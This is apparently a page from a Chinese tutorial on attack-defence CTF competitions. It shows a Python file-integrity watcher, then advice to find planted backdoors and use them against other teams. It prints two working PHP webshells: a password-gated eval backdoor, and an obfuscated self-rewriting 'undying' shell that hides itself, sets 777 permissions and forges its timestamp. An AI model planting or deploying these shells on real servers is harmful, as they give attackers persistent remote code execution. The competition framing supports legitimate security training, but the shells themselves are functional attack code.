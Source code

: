 ```
        for filekey in md5_dict:
            if md5_dict[filekey] != FILE_MD5_DICT[filekey]:
                try:
                    f = open(filekey, 'r').read()
                except Exception, e:
                    break
                if Special_string not in f:
                    try:
                        print u'[*] file had be change : ' + getUnicode(filekey)
                        shutil.move(filekey, os.path.join(Special_path['difffile'], ntpath.basename(filekey) + '.txt'))
                        shutil.move(os.path.join(Special_path['bak'], ntpath.basename(filekey)), filekey)
                    except Exception as e:
                        print u'[!] move webshell error, "%s" maybe is webshell.'%getUnicode(filekey)
                    try:
                        f = open(os.path.join(Special_path['log'], 'log.txt'), 'a')
                        f.write('diff_file: ' + getUnicode(filekey) + ' : ' + getUnicode(time.ctime()) + '\n')
                        f.close()
                    except Exception as e:
                        print u'[-] log error : done_diff: ' + getUnicode(filekey)
                        pass
        time.sleep(2)
        # print '[*] ' + getUnicode(time.ctime())
```

一般比赛都会有预留后门，所以可以把自己down下的源码放到d盾里面扫一下，看看有哪些后门，及时删除并试试可以利用预留后门打一下别人

除此之外还有不死马，这个可以权限持续维持，每局都可以得分

一句话木马那方法就很多了，在这就不列举了。还有md5马

```
<?php
echo 'hello';
if(md5($_POST['pass'])=='042766b4e0c02419a448f2e8ec68d9bc'){
	@eval($_POST['cmd']);
}
?>
```

不死马也有很多种，但是为了不让别人直使用所以都进行了一定的加密，一种是不断复制自身达到不死，一种是复制多个马到不同目录相互守护，此外有区块链马，不知道是个啥

```
<?php
    set_time_limit(0);
    ignore_user_abort(true);
    $file = '.demo.php';
    $shell = "<?php $_hR=chr(99).chr(104).chr(114);$_cC=$_hR(101).$_hR(118).$_hR(97).$_hR(108).$_hR(40).$_hR(36).$_hR(95).$_hR(80).$_hR(79).$_hR(83).$_hR(84).$_hR(91).$_hR(49).$_hR(93).$_hR(41).$_hR(59);$_fF=$_hR(99).$_hR(114).$_hR(101).$_hR(97).$_hR(116).$_hR(101).$_hR(95).$_hR(102).$_hR(117).$_hR(110).$_hR(99).$_hR(116).$_hR(105).$_hR(111).$_hR(110);$_=$_fF("",$_cC);@$_();?>";
    //$_hR='chr'
    //$_cC='eval($_POST[1]);'
    //$_fF='create_function'
    while(true){
        file_put_contents($file, $shell);
        system('chmod 777 .demo.php');
        touch(".demo.php", mktime(11,11,11,11,11,2018));
        usleep(50);
        }
?>
```
